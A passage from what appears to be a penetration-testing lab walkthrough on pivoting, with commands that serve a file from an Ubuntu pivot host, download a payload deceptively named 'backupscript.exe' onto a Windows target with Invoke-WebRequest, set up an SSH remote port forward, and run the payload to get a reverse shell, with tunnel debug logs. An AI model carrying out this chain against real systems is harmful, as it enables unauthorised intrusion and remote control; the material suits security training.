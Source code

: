 **Start Web Server on Pivot:**
```bash
# On Ubuntu pivot host
python3 -m http.server 8123

# Serving HTTP on 0.0.0.0 port 8123
```

### **Step 4: Download Payload on Windows Target**

**From Windows target (via RDP session):**
```powershell
# PowerShell download
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"

# Verify download
dir C:\backupscript.exe
```

### **Step 5: Create SSH Remote Port Forward**

**Set up Remote Forward Tunnel:**
```bash
# From attack host
ssh -R 172.16.5.129:8080:0.0.0.0:8000 ubuntu@10.129.202.64 -vN

# Flags explanation:
# -R: Remote port forwarding
# -v: Verbose output for debugging
# -N: Don't execute remote command (tunnel only)
```

**Tunnel Configuration:**
- **Remote bind:** `172.16.5.129:8080` (pivot internal IP)
- **Local forward:** `0.0.0.0:8000` (attack host handler)
- **Direction:** Pivot port 8080 → Attack host port 8000

### **Step 6: Execute Payload and Get Shell**

**Execute on Windows Target:**
```cmd
# Run the payload
C:\backupscript.exe
```

**Monitor SSH Tunnel Logs:**
```bash
# Verbose SSH output shows connections
debug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61355
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=5
debug1: channel 1: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 1: connected to 0.0.0.0 port 8000
```
